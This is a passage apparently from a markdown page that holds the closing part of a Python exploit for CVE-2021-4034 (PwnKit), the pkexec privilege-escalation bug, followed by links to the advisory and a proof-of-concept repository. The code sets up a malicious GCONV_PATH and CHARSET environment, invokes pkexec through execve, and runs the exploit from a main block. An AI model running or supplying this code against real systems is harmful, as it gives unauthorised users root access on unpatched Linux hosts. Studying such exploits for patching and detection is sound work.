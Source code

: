 ```python
            b"pwnkit",
            b"PATH=GCONV_PATH=.",
            b"CHARSET=PWNKIT",
            b"SHELL=pwnkit",
            b""
        ]

        e_argv = (c_char_p * (len(argv) + 1))(*argv, None)
        e_env = (c_char_p * (len(env_store) + 1))(*env_store, None)

        try:
            c_lang.execve(pkexec_cmd, e_argv, e_env)
        except Exception as e:
            print("[ERROR]: {0}".format(e))

if __name__ == '__main__':
    CVE = CVE_2021_4034()
    CVE.author()
    CVE.exploit()
```

### Sources
- https://github.com/arthepsy/CVE-2021-4034
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-4034
- https://nvd.nist.gov/vuln/detail/cve-2021-4034
- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt